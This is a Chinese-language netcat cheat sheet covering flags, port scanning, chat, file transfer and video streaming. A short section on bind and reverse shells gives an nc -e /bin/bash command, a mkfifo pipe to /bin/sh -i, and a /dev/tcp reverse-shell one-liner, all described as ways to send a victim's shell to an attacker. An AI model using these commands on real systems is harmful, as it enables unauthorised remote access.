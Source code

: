 # netcat
BSD版的不支技-c -e参数，而GNU版的有-e参数
## 基本命令
- server: nc -l [port_num]
- client: nc [host] [port]
## 参数
- 端口扫描：
    nc -z hostname 80-90
    tips：可以指定-w和发送一个通用消息探测服务器类型
    Ex: echo "QUIT" | nc host.example.com 20-30
- 指定客户端端口： 
    -p xxx
    -r 随机(默认)
- 指定本机使用出口ip
    -s addr
- 指定udp协议： -u
- 指定超时秒： -w xxx
- 输出详情: -v
- -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
- -e filename             program to exec after connect [dangerous!!]
## 场景
- 端口扫描:
    `nc -z -v -n 172.31.100.7 21-25`
- Chat Server:
    `nc -l 8080` and `nc server-ip 8080`
- 传文件(一次性)
    服务器->客户端:
     `nc -l 8080 < /var/www/index.html`
     `nc server-ip 8080 > /var/www/index.html`
- Shell(一次性),反向/反弹Shell
    反弹shell，指的是我们在自己的机器上开启监听，然后在被攻击者的机器上发送连接请求去连接我们的机器，将被攻击者的shell反弹到我们的机器上
    - Server(GNU NC) 支持`e`参数
    Server: `nc server-ip 1567` 
    Client: `nc -l 1567 -e /bin/bash -i`
    - Server(BSD NC) 不支持`e`参数
    Server: `nc server-ip 1567`
    Client:
    ```
        mkfifo /tmp/tmp_fifo
        cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo
    ```
    `/bin/bash -i >& /dev/tcp/192.168.0.4/7777`(待验证)
    
- 视频流
    Server: `cat video.avi | nc -l 1567`
    Client: `nc server-ip 1567 | mplayer -vo x11 -cache 3000 -`
